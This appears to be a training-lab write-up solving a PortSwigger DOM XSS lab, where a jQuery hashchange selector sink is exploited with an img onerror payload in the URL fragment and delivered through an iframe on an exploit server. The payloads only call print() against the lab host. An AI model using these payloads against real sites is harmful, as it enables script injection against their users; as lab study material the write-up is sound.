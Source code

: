 
### DOM XSS in jQuery selector sink using a hashchange event : APPRENTICE

---

> View the jQuery script

![jqscript](./screenshots/jqscript.png)
> It goes to whatever is after the `#` in the URL.

> It is user controllable, so try adding after the URL
```
#<img src=1 onerror=print>
```
> And indeed we get the print function screen.

> To make this exploit delivered to the server, use the exploit server.
> Add an `iframe` tag, such that whenever the lab is loaded, the exploit appears. Add it in the exploit body.
```
<iframe src ="https://0a0b00b9043b4ccf8331690900400055.web-security-academy.net/#" onload="this.src+='<img src=1 onerror=print()>'"></iframe>
```
> We make the iframe src the lab, and after the # add to this src an img.
> This img contains an error in its src, and the onerror attribute is called with the print() function as the lab requires.

---
